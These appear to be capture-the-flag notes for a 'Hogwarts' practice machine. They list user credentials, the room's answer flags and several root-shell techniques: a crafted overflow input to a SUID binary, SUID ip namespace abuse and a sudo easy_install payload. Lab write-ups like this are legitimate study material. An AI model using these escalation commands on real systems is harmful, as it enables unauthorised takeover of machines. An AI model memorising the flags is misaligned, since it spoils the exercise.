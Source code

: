 # HOGWARTS -->

you need rustscan for this machine, download here: https://github.com/Macchimne/RUSTSCAN

# Users:

hermoine

neville:eos34dqa7qgwq8@006oudrri1

draco:slytherin

# Paths to root

/etc/room_of_requirement is a suid binary that will grant a root shell with:
{ echo -e "012345678901234567890123\xbe\xba\xfe\xca"; cat; } | /etc/room_of_requirement

(/bin/ip)  has the suid bit set. this can get root via:

ip netns add foo
ip netns exec foo /bin/sh -p



hermoine can run date as sudo, though this just allows file read as far as i can tell with date -f file



draco can run easy_install as root, which can privesc via:

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF


# Flags:

THM{Albus_Perciva1_Wu1fric_Brian_Dumb1ed0re}

THM{its_wingardium_laviosaa_Ron}

THM{Yeah_1_swallowed_the_sn1tch.}

THM{I_unarm3d_dumbled0re}
